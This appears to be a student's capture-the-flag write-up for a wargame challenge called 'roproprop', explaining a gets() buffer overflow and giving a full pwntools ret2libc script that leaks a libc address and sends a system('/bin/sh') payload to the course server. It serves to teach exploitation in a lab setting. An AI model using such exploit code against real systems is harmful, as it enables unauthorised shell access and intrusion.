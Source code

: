 `6447{38b126bc-24b0-404d-81db-7a2f74ea4941}`


roproprop
===========================

General overview of problems faced
-------------------------------------
- Had to learn how to beat a non-executable stack

List of vulnerabilities
------------------------
- The binary uses gets() which can result in a buffer-overflow as it doesn't stop reading until it reaches a EOF or a new line

Steps to exploit
------------------
1. Get the leaked address to find the libc verion used. (I used the online database to find the version using the address I got)
2. From the online database we can get the offset of system and /bin/sh and then we can calculate the base of this libc
3. Buffer is at ebp-0x541 so we add one random byte so the rest being at ebp-0x540
4. Send of a payload containing the libc base plus the offset of system and 4 random bytes and base with the offset of /bin/sh to a writeable area in memory to execute this.
5. This only works sometimes just like piv_it

Script/Command used
------------------
```
#!/usr/bin/env python

from pwn import *
from time import sleep
import re


p = remote('wargames.6447.sec.edu.au', 8002)
#p = process('./roproprop')

p.recvuntil('favourite number: ')
puts_leak = p.recvline()
puts_addr = int(puts_leak, 16)
p.recv()


# the following values are for remote libc-2.23
offset_puts = 0x05fca0
offset_system = 0x03ada0
offset_str_bin_sh = 0x15ba0b
libc_base = puts_addr - offset_puts

payload = '\x00'

payload += (p32(libc_base+offset_system) + 'AAAA' + p32(libc_base+offset_str_bin_sh)) * ((0x540/12)+1)

payload = payload[:(0x541 - 0x08)]

p.sendline(payload)
p.recv()

p.interactive()

```
